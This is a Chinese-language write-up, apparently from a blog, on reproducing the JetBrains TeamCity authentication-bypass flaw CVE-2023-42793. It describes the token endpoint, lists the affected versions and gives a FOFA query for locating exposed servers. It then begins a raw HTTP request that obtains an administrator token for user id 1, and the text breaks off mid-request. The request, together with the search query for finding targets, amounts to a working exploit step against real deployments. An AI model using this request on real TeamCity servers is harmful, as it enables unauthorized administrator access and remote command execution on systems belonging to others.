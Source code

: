 
# JetBrains TeamCity RCE 漏洞复现 (CVE-2023-42793)

### 0x01 产品简介

 [JetBrains](https://so.csdn.net/so/search?q=JetBrains&spm=1001.2101.3001.7020) TeamCity 是 JetBrains 公司开发的一款通用 CI/CD 软件平台。

### 0x02 漏洞概述

 JetBrains TeamCity 可通过访问 /app/rest/users/{ {id}}/tokens/RPC2 端点获取对应 id 用户的有效 token，携带 admin token 访问受限端点导致[远程命令执行](https://so.csdn.net/so/search?q=%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C&spm=1001.2101.3001.7020)或创建后台管理员用户。

### 0x03 影响范围

TeamCity On-Premises version < 2023.05.04 

### 0x04 复现环境

[FOFA](https://so.csdn.net/so/search?q=FOFA&spm=1001.2101.3001.7020)：body="Log in to TeamCity"

![](assets/1701746642-714ed9997a5de8c2c126bf79667ffe54.png)

### 0x05 漏洞复现 

获取 id 为 1 用户的 tooken

```cobol
POST /app/rest/users/id:1/tokens/RPC2 HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) V
```
